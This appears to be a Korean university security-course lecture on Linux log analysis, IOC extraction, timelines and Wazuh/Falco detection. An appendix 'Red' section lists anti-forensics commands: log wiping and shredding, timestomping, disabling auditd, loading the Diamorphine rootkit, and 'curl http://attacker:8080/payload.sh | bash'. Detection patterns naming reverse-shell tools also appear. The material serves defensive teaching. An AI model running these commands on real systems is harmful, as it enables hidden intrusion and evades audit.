

# Week 08: 로그 분석

## 학습 목표
- 리눅스 시스템 로그의 종류, 위치, 형식을 체계적으로 파악할 수 있다
- auth.log, syslog, kern.log 등 핵심 로그를 분석하여 침입 시도를 식별할 수 있다
- 로그 기반 타임라인(Timeline)을 구성하여 공격 경로를 재구성할 수 있다
- IOC(Indicator of Compromise)를 로그에서 추출하고 분류할 수 있다
- Wazuh SIEM과 연동하여 중앙 집중식 로그 분석을 수행할 수 있다
- 로그 조작/삭제 시도를 탐지하는 방법을 이해한다
- 공방전에서 Blue Team의 핵심 탐지 활동으로서 로그 분석을 수행할 수 있다

## 전제 조건
- Week 01-07 완료 (공격 기법 + 방화벽 + IDS 이해)
- Linux 기본 명령어 (grep, awk, sort, uniq)
- 정규 표현식 기초

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | 로그 분석 이론 + 로그 종류/위치 | 강의 |
| 0:40-1:10 | 로그 분석 기법 + IOC 추출 | 강의 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | auth.log/syslog 분석 실습 | 실습 |
| 2:00-2:30 | 타임라인 구성 + Wazuh 연동 실습 | 실습 |
| 2:30-2:40 | 휴식 | - |
| 2:40-3:10 | 종합 로그 분석 시나리오 실습 | 실습 |
| 3:10-3:40 | 안티포렌식 + 퀴즈 + 과제 | 토론/퀴즈 |

---

# Part 1: 로그 분석 이론 (40분)

## 1.1 로그 분석의 중요성

로그 분석은 보안 모니터링, 사고 대응, 포렌식의 핵심이다. 공격자의 모든 활동은 어딘가에 흔적을 남기며, 이 흔적을 찾는 것이 방어자의 핵심 역량이다.

**MITRE ATT&CK 매핑:**
```
방어 활동:
  +-- 탐지(Detection) — 로그 기반 공격 식별
  +-- 대응(Response) — 로그 기반 사고 범위 파악

공격 활동 (로그 회피):
  +-- T1070 — Indicator Removal
        +-- T1070.001 — Clear Windows Event Logs
        +-- T1070.002 — Clear Linux or Mac System Logs
        +-- T1070.003 — Clear Command History
```

### 로그 분석이 답하는 질문

```
WHO   — 누가? (사용자, IP, 프로세스)
WHAT  — 무엇을? (명령, 파일 접근, 네트워크 활동)
WHEN  — 언제? (타임스탬프, 시간대)
WHERE — 어디서? (소스 IP, 인터페이스, 호스트)
HOW   — 어떻게? (공격 기법, 도구, 취약점)
WHY   — 왜? (동기, 목표)
```

## 1.2 리눅스 로그 종류와 위치

### 핵심 로그 파일

| 로그 | 경로 | 내용 | 보안 관련성 |
|------|------|------|-----------|
| **auth.log** | `/var/log/auth.log` | 인증/인가 이벤트 | SSH 로그인, sudo, su |
| **syslog** | `/var/log/syslog` | 시스템 전반 이벤트 | 서비스 시작/중지, 에러 |
| **kern.log** | `/var/log/kern.log` | 커널 메시지 | 방화벽 로그, 하드웨어 |
| **apache** | `/var/log/apache2/access.log` | 웹 접근 기록 | SQLi, XSS, 스캐닝 |
| **apache error** | `/var/log/apache2/error.log` | 웹 에러 | 공격 실패 흔적 |
| **suricata** | `/var/log/suricata/fast.log` | IDS 경보 | 공격 탐지 |
| **suricata eve** | `/var/log/suricata/eve.json` | IDS 상세 | 공격 상세 분석 |
| **wazuh alerts** | `/var/ossec/logs/alerts/alerts.log` | SIEM 경보 | 통합 보안 이벤트 |
| **lastlog** | `/var/log/lastlog` | 마지막 로그인 | 계정 활동 추적 |
| **wtmp** | `/var/log/wtmp` | 로그인 기록 | 접속 이력 |
| **btmp** | `/var/log/btmp` | 실패한 로그인 | 브루트포스 탐지 |
| **cron** | `/var/log/cron.log` | cron 작업 기록 | 백도어 cron 탐지 |

### auth.log 형식 상세

```
Mar 25 14:32:01 web sshd[12345]: Accepted password for web from 10.20.30.201 port 54321 ssh2
|              |    |     |        |                        |                  |
|              |    |     |        |                        |                  +-- 소스 포트
|              |    |     |        |                        +-- 소스 IP
|              |    |     |        +-- 인증 결과 + 사용자
|              |    |     +-- PID
|              |    +-- 프로세스
|              +-- 호스트명
+-- 타임스탬프
```

### 주요 auth.log 이벤트 패턴

| 이벤트 | 로그 패턴 | 의미 |
|--------|---------|------|
| SSH 성공 | `Accepted password for` | 비밀번호 인증 성공 |
| SSH 실패 | `Failed password for` | 비밀번호 틀림 |
| SSH 무효 사용자 | `Invalid user` | 존재하지 않는 사용자 |
| sudo 성공 | `sudo:.*COMMAND=` | sudo 명령 실행 |
| sudo 실패 | `sudo:.*authentication failure` | sudo 인증 실패 |
| su 전환 | `su:.*session opened` | 사용자 전환 |
| 계정 잠금 | `pam_unix.*account locked` | 계정 잠금 발동 |

## 1.3 IOC (Indicator of Compromise)

IOC는 침해 사고의 존재를 나타내는 증거이다.

### IOC 유형

| 유형 | 설명 | 로그에서의 추출 | 예시 |
|------|------|---------------|------|
| IP 주소 | 공격자/C2 서버 IP | auth.log, apache log | 192.168.1.100 |
| 도메인 | 악성 도메인 | DNS 로그, HTTP 로그 | evil.attacker.com |
| URL | 악성 URL | 웹 접근 로그 | /admin/shell.php |
| 파일 해시 | 악성 파일 식별자 | FIM 로그, AV 로그 | MD5, SHA256 |
| 사용자 에이전트 | 공격 도구 식별 | HTTP 로그 | sqlmap, Nikto |
| 명령어 패턴 | 악성 명령 | auth.log, audit 로그 | cat /etc/shadow |
| 포트 | 비정상 포트 사용 | 방화벽 로그 | 4444 (Metasploit) |

---

# Part 2: 로그 분석 기법 (30분)

## 2.1 명령줄 로그 분석 도구

| 도구 | 용도 | 예시 |
|------|------|------|
| `grep` | 패턴 검색 | `grep "Failed password" auth.log` |
| `awk` | 필드 추출 | `awk '{print $1,$2,$3,$11}' auth.log` |
| `sort` | 정렬 | `sort -t' ' -k3 auth.log` |
| `uniq -c` | 중복 카운트 | `sort \| uniq -c \| sort -rn` |
| `cut` | 필드 잘라내기 | `cut -d' ' -f1-3,11` |
| `wc -l` | 라인 수 | `grep "Failed" auth.log \| wc -l` |
| `tail -f` | 실시간 모니터링 | `tail -f /var/log/auth.log` |
| `jq` | JSON 파싱 | `jq '.alert.signature' eve.json` |

## 2.2 타임라인 구성 방법

```
타임라인 구성 프로세스:
[1] 관련 로그 수집 (auth.log, access.log, suricata 등)
[2] 타임스탬프 통일 (UTC 또는 KST)
[3] 시간순 정렬
[4] 주요 이벤트 표시
[5] 공격 단계 매핑

예시 타임라인:
  14:30:00  [suricata]  포트 스캔 탐지 (10.20.30.201 → 10.20.30.80)
  14:31:15  [auth.log]  SSH 로그인 시도 실패 x5 (ccc@10.20.30.80)
  14:31:45  [auth.log]  SSH 로그인 성공 (ccc@10.20.30.80, password)
  14:32:00  [auth.log]  sudo su 실행 (web → root)
  14:32:30  [kern.log]  nftables 규칙 변경
  14:33:00  [access.log] SQLi 시도 (UNION SELECT)
```

---

# Part 3: auth.log/syslog 분석 실습 (40분)

## 실습 3.1: auth.log 분석 — SSH 브루트포스 탐지

### Step 1: SSH 로그인 시도 분석

> **실습 목적**: auth.log에서 SSH 로그인 시도를 분석하여 브루트포스 공격을 식별한다.
>
> **배우는 것**: auth.log 파싱, 패턴 분석, IP별 통계

```bash
# web 서버의 auth.log에서 SSH 관련 로그 확인
ssh ccc@10.20.30.80   "echo 1 | sudo -S cat /var/log/auth.log 2>/dev/null | grep sshd | tail -20"
# 예상 출력: SSH 관련 로그 (성공/실패)

# 실패한 로그인 시도 카운트
ssh ccc@10.20.30.80   "echo 1 | sudo -S grep 'Failed password' /var/log/auth.log 2>/dev/null | wc -l"
# 예상 출력: 실패 횟수

# IP별 실패 횟수 (브루트포스 탐지)
ssh ccc@10.20.30.80   "echo 1 | sudo -S grep 'Failed password' /var/log/auth.log 2>/dev/null | grep -oP 'from \K[\d.]+' | sort | uniq -c | sort -rn | head -10"
# 예상 출력:
#  50 10.20.30.201   ← Week 04 hydra 브루트포스 흔적

# 성공한 로그인 목록
ssh ccc@10.20.30.80   "echo 1 | sudo -S grep 'Accepted' /var/log/auth.log 2>/dev/null | tail -10"
# 예상 출력: 성공한 SSH 로그인 기록
```

> **결과 해석**:
> - 동일 IP에서 다수의 `Failed password` → 브루트포스 공격
> - `Invalid user`가 포함된 시도 → 사전 기반 사용자명 추측
> - `Accepted password` 직후 `sudo` → 권한 상승 시도 가능성
>
> **실전 활용**: 공방전에서 Blue Team은 auth.log를 실시간으로 모니터링하여 브루트포스를 조기 탐지한다.
>
> **명령어 해설**:
> - `grep -oP 'from \K[\d.]+'`: Perl 정규식으로 "from " 다음의 IP만 추출
> - `sort | uniq -c | sort -rn`: 중복 카운트 후 내림차순 정렬

### Step 2: sudo 사용 분석

> **실습 목적**: sudo 로그를 분석하여 권한 상승 시도를 식별한다.
>
> **배우는 것**: sudo 로그 패턴과 비정상 활동 식별

```bash
# sudo 사용 내역
ssh ccc@10.20.30.80   "echo 1 | sudo -S grep 'sudo:' /var/log/auth.log 2>/dev/null | tail -15"
# 예상 출력:
# web : TTY=pts/0 ; PWD=/home/web ; USER=root ; COMMAND=/bin/bash

# 실행된 sudo 명령 목록
ssh ccc@10.20.30.80   "echo 1 | sudo -S grep 'COMMAND=' /var/log/auth.log 2>/dev/null | grep -oP 'COMMAND=\K.*' | sort | uniq -c | sort -rn | head -10"

# 위험한 sudo 명령 식별
ssh ccc@10.20.30.80   "echo 1 | sudo -S grep 'COMMAND=' /var/log/auth.log 2>/dev/null | grep -iE 'shadow|passwd|bash|sh|nft|iptables'"
```

> **결과 해석**:
> - `COMMAND=/bin/bash`: root 셸 획득 시도
> - `COMMAND=/usr/bin/cat /etc/shadow`: 비밀번호 해시 탈취 시도
> - `COMMAND=nft flush ruleset`: 방화벽 규칙 삭제 시도

## 실습 3.2: 웹 로그 분석 — 공격 탐지

### Step 1: Apache 접근 로그 분석

> **실습 목적**: 웹 서버 접근 로그에서 공격 흔적을 식별한다.
>
> **배우는 것**: HTTP 로그 분석과 웹 공격 패턴 식별

```bash
# Apache 접근 로그에서 SQLi 흔적
ssh ccc@10.20.30.80   "cat /var/log/apache2/access.log 2>/dev/null | grep -iE 'union|select|or%201|1=1' | tail -10"

# XSS 흔적
ssh ccc@10.20.30.80   "cat /var/log/apache2/access.log 2>/dev/null | grep -iE 'script|alert|onerror' | tail -10"

# Nikto/스캐너 흔적 (User-Agent)
ssh ccc@10.20.30.80   "cat /var/log/apache2/access.log 2>/dev/null | grep -iE 'nikto|sqlmap|nmap|dirbuster' | tail -10"

# HTTP 상태 코드별 통계
ssh ccc@10.20.30.80   "cat /var/log/apache2/access.log 2>/dev/null | awk '{print \$9}' | sort | uniq -c | sort -rn | head -5"
# 예상 출력:
#  500 200    (정상)
#  100 404    (존재하지 않는 페이지)
#   50 403    (접근 거부)
#   10 500    (서버 에러 — 공격 흔적 가능)
```

> **결과 해석**:
> - 404 다수 → 디렉토리/파일 브루트포스 (gobuster, dirbuster 등)
> - 500 다수 → 서버 에러 유발 공격 시도 (SQLi, 잘못된 입력)
> - 공격 도구 User-Agent → 자동화 스캐닝 도구 사용 확인

## 실습 3.3: 타임라인 구성 + 종합 분석

### Step 1: Bastion를 활용한 로그 수집 자동화

> **실습 목적**: 여러 서버의 로그를 자동으로 수집하고 분석한다.
>
> **배우는 것**: 멀티 호스트 로그 수집 자동화

```bash
RESULT=$(curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: ccc-api-key-2026" \
  -d '{"name":"week08-log-analysis","request_text":"로그 분석 실습","master_mode":"external"}')
PID=$(echo $RESULT | python3 -c "import sys,json; print(json.load(sys.stdin)['project']['id'])")

curl -s -X POST "http://localhost:9100/projects/$PID/plan" -H "X-API-Key: ccc-api-key-2026" > /dev/null
curl -s -X POST "http://localhost:9100/projects/$PID/execute" -H "X-API-Key: ccc-api-key-2026" > /dev/null

curl -s -X POST "http://localhost:9100/projects/$PID/execute-plan" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: ccc-api-key-2026" \
  -d '{
    "tasks": [
      {"order":1,"title":"web SSH 실패 분석","instruction_prompt":"ssh ccc@10.20.30.80 \"echo 1 | sudo -S grep Failed /var/log/auth.log 2>/dev/null | wc -l\"","risk_level":"low","subagent_url":"http://localhost:8002"},
      {"order":2,"title":"web sudo 분석","instruction_prompt":"ssh ccc@10.20.30.80 \"echo 1 | sudo -S grep COMMAND /var/log/auth.log 2>/dev/null | tail -5\"","risk_level":"low","subagent_url":"http://localhost:8002"},
      {"order":3,"title":"secu 방화벽 로그","instruction_prompt":"ssh ccc@10.20.30.1 \"echo 1 | sudo -S dmesg 2>/dev/null | grep NFT | tail -5\"","risk_level":"low","subagent_url":"http://localhost:8002"},
      {"order":4,"title":"secu IDS 경보","instruction_prompt":"ssh ccc@10.20.30.1 \"echo 1 | sudo -S tail -5 /var/log/suricata/fast.log 2>/dev/null\"","risk_level":"low","subagent_url":"http://localhost:8002"}
    ],
    "subagent_url":"http://localhost:8002",
    "parallel":true
  }' | python3 -c "
import sys,json
d=json.load(sys.stdin)
print(f'결과: {d[\"overall\"]}')
for t in d.get('task_results',[]):
    print(f'  [{t[\"order\"]}] {t[\"title\"]:25s} → {t[\"status\"]}')
"
```

---

# Part 4: 안티포렌식 이해 + 방어 (30분)

## 4.1 안티포렌식 기법

| 기법 | 명령 | 탐지 방법 |
|------|------|---------|
| 로그 삭제 | `> /var/log/auth.log` | 파일 크기 급감 모니터링 |
| 로그 편집 | `sed -i '/공격IP/d' auth.log` | 로그 무결성 해시 |
| 히스토리 삭제 | `history -c` | .bash_history 백업 |
| 타임스탬프 조작 | `touch -t 202601010000 file` | MAC time 불일치 |
| 원격 로깅 우회 | 로컬 로그만 삭제 | 중앙 로그 서버 (Wazuh) |

## 4.2 로그 보호 전략

```
[1] 중앙 로그 서버 (Wazuh/rsyslog)
    → 로컬 삭제해도 중앙에 사본 보존
[2] 로그 무결성 해시
    → 주기적 SHA256 해시로 변조 탐지
[3] 불변 로그 (append-only)
    → chattr +a /var/log/auth.log
[4] 로그 크기 모니터링
    → 급감 시 경보 (Wazuh rule)
[5] 원격 syslog
    → rsyslog로 실시간 중앙 전송
```

---

## 검증 체크리스트
- [ ] auth.log에서 SSH 브루트포스를 식별했는가
- [ ] IP별/시간별 로그인 실패 통계를 산출했는가
- [ ] sudo 사용 내역을 분석하고 위험한 명령을 식별했는가
- [ ] 웹 접근 로그에서 SQLi/XSS 흔적을 찾았는가
- [ ] HTTP 상태 코드 통계로 비정상 활동을 식별했는가
- [ ] 타임라인을 구성하여 공격 경로를 재구성했는가
- [ ] Bastion를 통해 멀티 호스트 로그 수집을 자동화했는가
- [ ] IOC를 추출하고 분류했는가
- [ ] 안티포렌식 기법을 이해하고 방어 방법을 알고 있는가

## 과제

### 과제 1: 로그 분석 보고서 (필수)
- web 서버의 auth.log, apache access.log를 분석
- 발견된 보안 이벤트를 IOC로 분류하고 타임라인 구성
- 공격 경로를 재구성하여 보고서 작성

### 과제 2: 실시간 모니터링 스크립트 (선택)
- bash 스크립트로 auth.log를 실시간 모니터링
- SSH 실패 5회 이상 시 경보 출력
- IP별 실패 카운트 자동 산출

### 과제 3: 로그 상관 분석 (도전)
- 여러 로그 소스(auth.log, access.log, suricata)를 통합 분석
- 동일 공격자의 활동을 교차 확인하여 종합 타임라인 구성

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### Wazuh SIEM (4.11.x)
> **역할:** 에이전트 기반 로그·FIM·SCA 통합 분석 플랫폼  
> **실행 위치:** `siem (10.20.30.100)`  
> **접속/호출:** Dashboard `https://10.20.30.100` (admin/admin), Manager API `:55000`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `/var/ossec/etc/ossec.conf` | Manager 메인 설정 (원격, 전송, syscheck 등) |
| `/var/ossec/etc/rules/local_rules.xml` | 커스텀 룰 (id ≥ 100000) |
| `/var/ossec/etc/decoders/local_decoder.xml` | 커스텀 디코더 |
| `/var/ossec/logs/alerts/alerts.json` | 실시간 JSON 알림 스트림 |
| `/var/ossec/logs/archives/archives.json` | 전체 이벤트 아카이브 |
| `/var/ossec/logs/ossec.log` | Manager 데몬 로그 |
| `/var/ossec/queue/fim/db/fim.db` | FIM 기준선 SQLite DB |

**핵심 설정·키**

- `<rule id='100100' level='10'>` — 커스텀 룰 — level 10↑은 고위험
- `<syscheck><directories>...` — FIM 감시 경로
- `<active-response>` — 자동 대응 (firewall-drop, restart)

**로그·확인 명령**

- `jq 'select(.rule.level>=10)' alerts.json` — 고위험 알림만
- `grep ERROR ossec.log` — Manager 오류 (룰 문법 오류 등)

**UI / CLI 요점**

- Dashboard → Security events — KQL 필터 `rule.level >= 10`
- Dashboard → Integrity monitoring — 변경된 파일 해시 비교
- `/var/ossec/bin/wazuh-logtest` — 룰 매칭 단계별 확인 (Phase 1→3)
- `/var/ossec/bin/wazuh-analysisd -t` — 룰·설정 문법 검증

> **해석 팁.** Phase 3에서 원하는 `rule.id`가 떠야 커스텀 룰 정상. `local_rules.xml` 수정 후 `systemctl restart wazuh-manager`, 문법 오류가 있으면 **분석 데몬 전체가 기동 실패**하므로 `-t`로 먼저 검증.

### SIGMA + YARA
> **역할:** SIGMA=플랫폼 독립 탐지 룰, YARA=파일/메모리 시그니처  
> **실행 위치:** `SOC 분석가 PC / siem`  
> **접속/호출:** `sigmac` 변환기, `yara <rule> <target>`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `~/sigma/rules/` | SIGMA 룰 저장 |
| `~/yara-rules/` | YARA 룰 저장 |

**핵심 설정·키**

- `SIGMA logsource:product/service` — 로그 소스 매핑
- `YARA `strings: $s1 = "..." ascii wide`` — 시그니처 정의
- `YARA `condition: all of them and filesize < 1MB`` — 매칭 조건

**UI / CLI 요점**

- `sigmac -t elasticsearch-qs rule.yml` — Elastic용 KQL 변환
- `sigmac -t wazuh rule.yml` — Wazuh XML 룰 변환
- `yara -r rules.yar /var/tmp/sample.bin` — 재귀 스캔

> **해석 팁.** SIGMA는 *탐지 의도*, YARA는 *바이너리 패턴*으로 역할 분리. SIGMA 룰은 반드시 **false positive 조건**까지 기술해야 SIEM 운영 가능.

---

## 실제 사례 (WitFoo Precinct 6 — 로그 분석)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *로그 분석* 학습 항목 매칭.

### 로그 분석 의 dataset 흔적 — "security_audit_event 381,552"

dataset 의 정상 운영에서 *security_audit_event 381,552* 신호의 baseline 을 알아두면, *로그 분석* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — 일일 ~13K audit 의 분류.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | security_audit_event 381,552 |
| 정량 baseline | 일일 ~13K audit 의 분류 |
| 학습 매핑 | ELK/Wazuh 로그 분석 파이프라인 |

**자세한 해석**: ELK/Wazuh 로그 분석 파이프라인. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | security_audit_event 381,552 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **로그 분석 = security_audit_event 381,552 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — 일일 ~13K audit 의 분류.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: dataset 100건을 ELK 에 ingest → query 실험.


---

## 부록: 학습 OSS 도구 매트릭스 (Course11 — Week 08 로그 분석 + 흔적 은닉)

### lab step → 도구 매핑

| step | 학습 항목 | OSS 도구 | 명령 |
|------|----------|---------|------|
| s1 | Wazuh alert 통합 | Wazuh manager + jq | `jq 'select(.rule.level >= 10)' alerts.json` |
| s2 | lnav (컬러 + SQL) | lnav | `lnav /var/log/auth.log` |
| s3 | Sigma + chainsaw | chainsaw + Sigma rules | `chainsaw hunt /var/log -s sigma/rules/` |
| s4 | hayabusa (Win EVTX) | hayabusa | `hayabusa csv-timeline -d /evtx` |
| s5 | Velociraptor | velociraptor | `velociraptor flow create EvidenceOfCompromise` |
| s6 | Bash history 검사 | grep + ausearch | `grep -E "wget|curl|nc " ~/.bash_history` |
| s7 | 흔적 은닉 (Red) | shred / chattr / timestomp | `shred -uvz /var/log/auth.log` |
| s8 | 자동 분석 (LLM) | langchain + Wazuh API | LLM 자동 alert 분류 |

### Blue 환경 준비

```bash
ssh ccc@10.20.30.100
sudo apt install -y lnav multitail jq
cargo install chainsaw                                     # Rust

git clone https://github.com/Yamato-Security/hayabusa ~/hayabusa
cd ~/hayabusa && cargo build --release

# Velociraptor
curl -L https://github.com/Velocidex/velociraptor/releases/latest/download/velociraptor-v0.7.0-linux-amd64 -o /tmp/vr
chmod +x /tmp/vr && sudo mv /tmp/vr /usr/local/bin/velociraptor

# Sigma rules (5000+ rule)
git clone https://github.com/SigmaHQ/sigma ~/sigma
```

### Blue — 5 단계 로그 분석

```bash
# === Phase 1: 실시간 alert 모니터 ===
sudo jq 'select(.rule.level >= 10)' /var/ossec/logs/alerts/alerts.json
# 또는 watch 으로 실시간:
watch -n 5 'sudo jq -r "select(.rule.level >= 10) | \"\(.timestamp) [\(.rule.level)] \(.rule.description)\"" /var/ossec/logs/alerts/alerts.json | tail -10'

# === Phase 2: lnav (컬러 + SQL 형 검색) ===
sudo lnav /var/log/auth.log /var/log/syslog
# lnav 안에서:
# :filter-in error
# :filter-out cron
# ;SELECT * FROM auth_log WHERE log_level = 'error'

# === Phase 3: Sigma + chainsaw (가설 헌팅) ===
chainsaw hunt /var/log -s ~/sigma/rules/linux/ \
    --output json > /tmp/hunt.json

# 결과 분석
jq -r '.[] | "\(.timestamp) [\(.rule.title)] \(.rule.severity)"' /tmp/hunt.json | head

# === Phase 4: Win EVTX (있으면) ===
~/hayabusa/target/release/hayabusa csv-timeline \
    -d /evtx_files \
    -o /tmp/timeline.csv

# 통계
~/hayabusa/target/release/hayabusa logon-summary -d /evtx_files

# === Phase 5: Velociraptor (multi-host live hunt) ===
velociraptor query "
SELECT pid, name, exe, cmdline, username
FROM artifact(name='Linux.Sys.Process')
WHERE exe LIKE '%/tmp/%' OR exe LIKE '%/dev/shm/%'
"

# === Phase 6: Bash history 검사 ===
sudo cat /home/*/.bash_history /root/.bash_history 2>/dev/null | \
    grep -E "wget|curl|nc |bash -i|/dev/tcp|chmod \+s|chattr" | head
```

### Red — 흔적 은닉 (학생 양면 학습)

```bash
# === 1. 현재 세션 history 끄기 ===
unset HISTFILE
export HISTSIZE=0
history -c

# 또는 ;공백으로 시작하면 history 안 남음 (HISTCONTROL=ignorespace)
 sudo wget http://attacker/payload     # 공백 시작 (안 보임)

# === 2. 로그 wipe ===
# 가장 단순
sudo > /var/log/auth.log
sudo > /var/log/wtmp

# 더 안전 (덮어쓰기 + 삭제)
sudo shred -uvz /var/log/auth.log

# 특정 user 만
sudo journalctl --vacuum-files=0 --user=ccc

# === 3. Timestamp 변조 ===
touch -t 202001010000 /tmp/payload                         # 시간 위조

# stat 으로 확인
stat /tmp/payload                                          # Modify: 2020-01-01

# === 4. 파일 immutable (rm 도 안 됨) ===
sudo chattr +i /tmp/payload
ls -la /tmp/payload                                         # 권한 + 'i' attribute
sudo lsattr /tmp/payload                                    # i 표시

# === 5. Audit 비활성 (root 권한) ===
sudo auditctl -e 0                                          # auditing 끄기
sudo systemctl stop auditd

# === 6. Kernel module 으로 process 숨김 (rootkit) ===
# 학습 참고만 — 실제 운영 환경 사용 금지
git clone https://github.com/m0nad/Diamorphine ~/diamorphine
cd ~/diamorphine && make
sudo insmod diamorphine.ko
# Process 가 ps 에서 안 보임 — 매우 위험

# === 7. 분산 (LOTL — Living Off The Land) ===
# /usr/bin/curl 은 모든 시스템에 있음 — AV 차단 안 함
sudo curl http://attacker:8080/payload.sh | bash
```

### Blue — 흔적 은닉 탐지 (Red 우회 대응)

```bash
# === 1. AIDE FIM (변경 감지) ===
sudo apt install -y aide
sudo aideinit
sudo cp /var/lib/aide/aide.db.new /var/lib/aide/aide.db

# 매일 cron:
echo "0 2 * * * sudo aide --check | mail -s 'AIDE report' admin@x.com" | sudo tee -a /etc/crontab

# 변경 발견 시 자동 alert
sudo aide --check 2>&1 | grep -E "Added|Changed|Removed"

# === 2. Wazuh FIM (실시간) ===
# /var/ossec/etc/ossec.conf 에 syscheck 활성
# <syscheck>
#   <directories check_all="yes" realtime="yes">/etc</directories>
#   <directories check_all="yes" realtime="yes">/usr/bin</directories>
# </syscheck>
sudo systemctl restart wazuh-agent

# === 3. auditd (audit 비활성화 시도 자동 탐지) ===
sudo tee /etc/audit/rules.d/audit-protect.rules << 'EOF'
# auditd 변경 차단
-w /etc/audit/ -p wa -k auditconfig
-w /etc/libaudit.conf -p wa -k auditconfig

# Final lock — 부팅 후 수정 불가
-e 2
EOF

# === 4. Falco rule (history clear 탐지) ===
sudo tee /etc/falco/falco_rules.local.yaml << 'EOF'
- rule: Bash History Cleared
  desc: history -c 또는 .bash_history 삭제
  condition: >
    (proc.name = bash and proc.cmdline contains "history -c") or
    (proc.name = rm and fd.name endswith "bash_history")
  output: "Bash history cleared (user=%user.name cmd=%proc.cmdline)"
  priority: WARNING

- rule: Log File Wiped
  desc: 로그 파일 zero-out
  condition: >
    open_write and 
    fd.directory startswith "/var/log" and
    proc.cmdline matches "(>|truncate|shred)"
  output: "Log wiped (user=%user.name file=%fd.name)"
  priority: ERROR

- rule: Auditd Disabled
  desc: auditd 비활성 시도
  condition: spawned_process and proc.cmdline contains "auditctl -e 0"
  output: "Auditd disabled (user=%user.name)"
  priority: CRITICAL

- rule: Suspicious chattr +i
  desc: 파일 immutable 설정
  condition: spawned_process and proc.name = chattr and proc.cmdline contains "+i"
  output: "Immutable attribute set (file=%proc.cmdline)"
  priority: WARNING
EOF
sudo systemctl restart falco

# === 5. 통합 (Wazuh + Falco + Velociraptor) ===
# Velociraptor 가 모든 호스트에서 실시간 evidence 수집
velociraptor flow create EvidenceOfCompromise --hostnames all
```

### 통합 hunt 스크립트 (자동)

```bash
#!/bin/bash
# /usr/local/bin/auto-hunt.sh
# 매시간 실행

DIR=/var/log/auto-hunt/$(date +%Y%m%d-%H)
mkdir -p $DIR

# 1) Sigma + chainsaw
chainsaw hunt /var/log -s ~/sigma/rules/linux/ --output json > $DIR/01-chainsaw.json

# 2) Falco 24h alerts
sudo journalctl -u falco --since "1 hour ago" --output json > $DIR/02-falco.json

# 3) AIDE check
sudo aide --check > $DIR/03-aide.txt 2>&1

# 4) Bash history (모든 user)
sudo cat /home/*/.bash_history /root/.bash_history 2>/dev/null > $DIR/04-history.txt

# 5) auditd 변경 사항
sudo aureport --auth -i --start hour-1 > $DIR/05-auth.txt
sudo aureport --user -i --start hour-1 > $DIR/06-user.txt

# 6) Velociraptor live
velociraptor query "SELECT * FROM glob(globs='/etc/cron*')" --format json > $DIR/07-cron.json

# 7) LLM 자동 분류 (langchain)
python3 /opt/scripts/auto_classify.py --dir $DIR --output $DIR/00-summary.md

# 8) 통합 alert (level >= 10 인 결과만 Slack)
ALERTS=$(jq -r '.[] | select(.severity == "CRITICAL" or .severity == "HIGH")' \
    $DIR/01-chainsaw.json $DIR/02-falco.json | jq -s '.')
if [ "$(echo $ALERTS | jq '. | length')" -gt 0 ]; then
    curl -X POST $SLACK_WEBHOOK -H 'Content-Type: application/json' \
        -d "{\"text\": \"⚠ Hourly hunt alerts: $(echo $ALERTS | jq '. | length')\", \"attachments\": [{\"text\": \"$ALERTS\"}]}"
fi
```

### Red vs Blue 점수

| Red 행동 | 점수 | Blue 탐지 | 점수 |
|---------|------|----------|------|
| history 삭제 | +5 | Falco bash history rule | +10 |
| 로그 wipe | +10 | Wazuh FIM /var/log | +15 |
| chattr +i | +5 | Falco chattr rule | +5 |
| timestomp | +5 | AIDE 변경 감지 | +10 |
| auditd 비활성 | +15 | Falco auditd rule | +15 |
| LOTL (curl) | +10 | Suricata egress + DLP | +10 |
| Rootkit | +30 | (탐지 어려움) chkrootkit + osquery | +20 |

학생은 본 8주차에서 **Blue (Wazuh + jq + lnav + chainsaw + Velociraptor + AIDE + Falco) ↔ Red (shred + chattr + timestomp + LOTL + auditd 비활성)** 의 흔적 공방을 OSS 도구로 익힌다.
